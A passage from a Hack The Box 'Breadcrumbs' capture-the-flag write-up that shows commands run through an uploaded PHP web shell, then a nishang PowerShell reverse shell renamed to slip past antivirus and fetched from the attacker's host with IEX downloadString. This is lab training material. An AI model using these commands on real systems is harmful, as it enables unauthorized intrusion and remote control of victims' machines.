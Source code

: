 Then forward the request.<br>
Now we finally have a command execution on the remote host.

```bash
┌──(root💀f4T1H)-[~/hackthebox/breadcrumbs]
└─> curl 'http://10.10.10.228/portal/uploads/f4T1H.php?f4T1H=whoami'
breadcrumbs\www-data
```

Now, let's get a more beautiful shell.

__Attention:__ Install `nishang` and `rlwrap` packages if you don't have.

We'll get a powershell reverse shell using `nishang`'s payload and use rlwrap to make our shell more useful.

Here we can't use the payload without replacing some strings in it. AV might be blocking. So first of all we make some changes in the file.

```bash
┌──(root💀f4T1H)-[~/hackthebox/breadcrumbs]
└─> cp /usr/share/nishang/Shells/Invoke-PowerShellTcp.ps1 ./f4T1H.ps1                   
                                                                                                                     
┌──(root💀f4T1H)-[~/hackthebox/breadcrumbs]
└─> echo '\nInvoke-PowerShellTcp -Reverse -IPAddress 10.10.14.8 -Port 2121' >> f4T1H.ps1
                                                                                                                     
┌──(root💀f4T1H)-[~/hackthebox/breadcrumbs]
└─> sed -i 's/Invoke-PowerShellTcp/f4T1H/g' f4T1H.ps1
```

Now we're ready to go. Fire up the following powershell code to make remote host download our reverse shell.

```bash
┌──(root💀f4T1H)-[~/hackthebox/breadcrumbs]
└─> curl "http://10.10.10.228/portal/uploads/f4T1H.php?f4T1H=powershell+IEX(New-Object+Net.WebClient).downloadString('http://10.10.14.8/f4T1H.ps1')"
```

![](src/shell.png)
